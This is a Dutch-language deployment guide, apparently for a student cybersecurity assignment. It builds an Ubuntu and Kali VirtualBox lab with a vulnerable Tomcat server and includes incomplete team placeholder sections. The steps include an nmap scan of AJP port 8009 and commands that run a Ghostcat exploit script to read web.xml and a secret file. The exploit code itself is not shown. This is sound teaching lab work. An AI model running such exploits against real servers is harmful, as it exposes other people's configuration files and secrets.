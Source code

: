 # Uitrol

## 1) Belangrijk om te weten

Voor te installeren van de virtuele machines (vms) hebben we twee scripts voorzien namelijk:

- init_1.ps1
- init_2.ps1

Voor de virtuele harde schijven (vdi's) hebben het volgende gebruikt:

- Ubuntu 24.10 (64bit) vdi en
- Kali Linux 2024.3 (64bit) vdi

Het eerste script `init_1.ps1` werd gemaakt volgends de verwachtingen van de lector. Bij het uitvoeren van deze script krijgt de gebruiker een waarschuwingsbericht om te melden dat de uitvoer helemaal **afhankelijk** is van de gebruiker. Dat wil zeggen dat de vdi's vooraf geinstalleerd
moet zijn geweest en geplaatst worden in een specifieke locatie namelijk het pad: `C:\Users\<Gebruikersnaam>\Downloads`. Is dit niet gedaan, dan
krijgt de gebruiker de kans om dit te doen voordat de script kan starten. Omwille van deze lastige beperkingen, heb ik besloten een tweede variant van het script te maken.

Het tweede script `init_2.ps1` werd gemaakt als *uitbreiding* op de eerste script. Bij het uitvoeren van deze script krijgt de gebruiker een waarschuwingsbericht om te melden dat alles geautomatiseerd zal verlopen, de uitvoer zal helemaal **onafhankelijk** zijn van de gebruiker en is `pad locatie onafhankelijk`. Hiervoor heb ik de vdi's vooraf op OneDrive geupload en vanaf daar in PowerShell (PS) een request te doen (het zijn originele vdi's maar vanwege een timer blokkade op de sourceforge site kon PS hier niet goed mee omgaan).

**Opgelet**: Zorg ervoor dat deze vdi's niet reeds op uw computer staan en gebruikt worden door VirtualBox. VirtualBox geeft aan elke vdi een unieke UUID waardoor bij eenzelfde vdi conflicten gebeuren.

*Om deze scripts overzichtelijk te houden is er bewust besloten om foutmeldingen tijdens de installaties te negeren. Indien er fouten gebeuren tijdens de installaties kan de gebruiker gewoonweg het script opnieuw/tweede keer uitvoeren, en dan krijgt de gebruiker de kans om alles te verwijderen/ongedaan maken.*

<!-- @ Jamie @ Joeri
toon hier de aanval kort of dingen die belangrijk zijn om te weten
 -->

## 2) Virtuele omgeving vervolledigen (netwerk adapters)

<!-- @ Jamie -->

## 3) Starten van de opdracht

Nu we een correcte virtuele omgeving hebben in beide VM's kunnen we beginnen aan de opdracht zelf. Hierbij gaan we dus nog een paar commando's uitvoeren.

3.1) Start de Ubuntu VM:
3.2) open terminal

voer volgende commando's in:

3.3) sudo apt install openssh-server -y
3.4) sudo systemctl start ssh
3.5) sudo systemctl enable ssh
3.6) mkdir ghostcat
<!-- @ Fatlind -->

## Installatie-instructies: Stap-voor-stap instructies voor het installeren van de software. Waar de bestanden te vinden zijn (bijv. downloadlink, locatie van installatiebestanden). Vereiste rechten voor installatie (bijv. beheerdersrechten)

- Ubuntu 24.10 (64bit) vdi ->
- Kali Linux 2024.3 (64bit) vdi -> <https://sourceforge.net/projects/osboxes/files/v/vb/25-Kl-l-x/2024.3/64bit.7z/download>

## Configuratie-instellingen: Configuratie-instellingen die mogelijk moeten worden aangepast om de software goed te laten functioneren. Aanpassingen aan netwerkconfiguraties, databases, services, of beveiligingsinstellingen

<!-- @ Jamie -->

- Ubuntu VM ->

- Kali VM ->

## Testen: Richtlijnen voor het testen van de geïnstalleerde software om ervoor te zorgen dat deze werkt zoals verwacht. Eventuele testscenario’s of validatie van functionaliteit

Nu dat de virtuele machines correct geinstalleerd staan, gaan we beginnen met deze op te starten.

START DE UBUNTU VM

1. Het wachtwoord is osboxes.org
<!-- @ CLI ! of script
2. (indien je wil kan je de instellingen verander voor het toetsenbord zodat het makkelijker is om de commando's uit te voeren)
      2.1) ga naar instellingen -> toetsenbord ->
-->

<!-- @ Deze zouden door init.sh scripts uitgevoerd worden: sudo chmod +x init_ubuntu.sh, sudo chmod +x init_kali.sh; .\init_ubuntu, .\init_kali.sh 
3) open de terminal en voer de volgende commando's uit
4) sudo apt install openssh-server -y
5) sudo systemctl start ssh
6) sudo systemctl enable ssh
7) mkdir ghostcat
8) ip a
-->

3. Open terminal
4. sudo chmod +x init_ubuntu.sh
5. sudo chmod +x init_kali.sh

(kijk welk ip adres de ubuntu vm heeft)
(De 2 bestanden kopieren naar Ubuntu (gebruik jouw eigen pad en ip van de vms))

**vanaf de host**

10) scp C:\Users\gebruiker\cyber-npe-opdracht\scripts\bash\setup_tomcat.sh osboxes@[ip adres van de ubuntu vm]:~/ghostcat/setup_tomcat.sh
11) scp C:\Users\[gebruiker]\cyber-npe-opdracht/scripts/dockerfile\Dockerfile osboxes@[ip adres van de ubuntu vm]:~/ghostcat/Dockerfile
12) chmod +x setup_tomcat.sh
13) .\setup_tomcat.sh

(het ip adres van de ubuntu vm)

15) curl http://[ip adres van de ubuntu vm]:8080/

START DE KALI VM

1) Het wachtwoord is osboxes.org
2) (indien je wil kan je de instellingen verander voor het toetsenbord zodat het makkelijker is om de commando's uit te voeren)
      2.1) ga naar instellingen -> toetsenbord ->

3) sudo systemctl start ssh
4) sudo systemctl enable ssh
5) ip a

(kijk welk ip adres de ubuntu vm heeft)
(gebruik jouw eigen pad en ip van de vms)

6) scp C:/Users/[gebruiker]/cyber-npe-opdracht/scripts/python/exploit_ghostcat.py osboxes@[ip adres van de kali vm]:~/exploit_ghostcat.py
7) chmod +x exploit_ghostcat.py
8) nmap [ip adres van de ubuntu vm] -p 8009

(Voer de exploit uit:)

9) python3 exploit_ghostcat.py http://[ip adres van de ubuntu vm]:8080/ 8009 /WEB-INF/web.xml read
10) python3 exploit_ghostcat.py http://[ip adres van de ubuntu vm]:8080/ 8009 /WEB-INF/secret.txt read

## Rollback-plan: Instructies voor wat te doen als er iets misgaat tijdens de implementatie (bijv. hoe je terug kunt keren naar de vorige versie). Back-upprocedures

## Ondersteuning en foutoplossing: Veelvoorkomende problemen en oplossingen. Contactinformatie voor technische ondersteuning

indien er een probleem zou zijn met het ip adres kan je deze zelf aanpassen zodat je zeker bent welk ip adres je hebt via volgende stappen:

in ubuntu:

   1) ga naar het netwerkicoon
   2) open de netwerkinstellingen
   3) selecteer Wired
   4) selecteer bewerken
   5) ga naar IPv4
   6) selecteer handmatig
   7) kies nu een ip adress die je aan de kali vm wil geven (voorbeeld: 192.168.56.115)
   8) stel de subnetmask in met 255.255.255.0
   9) stel de DNS-server in met 8.8.8.8
   10) controleer nu in terminal met commando "ip a" of dit adres ook klopt

in kali:

   1) ga naar het netwerkicoon
   2) open de netwerkinstellingen
   3) selecteer Wired Connection 1
   4) selecteer bewerken
   5) ga naar IPv4
   6) selecteer handmatig
   7) kies nu een ip adress die je aan de kali vm wil geven (voorbeeld: 192.168.56.116)
   8) stel de subnetmask in met 255.255.255.0
   9) stel de DNS-server in met 8.8.8.8
   10) controleer nu in terminal met commando "ip a" of dit adres ook klopt

## Versiebeheer: Versie-informatie van de geïmplementeerde software. Veranderingen of nieuwe functies in de versie die wordt gedeployed

## Schaling en onderhoud: Hoe het systeem kan worden opgeschaald of uitgebreid. Instructies voor regelmatige onderhoudstaken of updates na de deployment
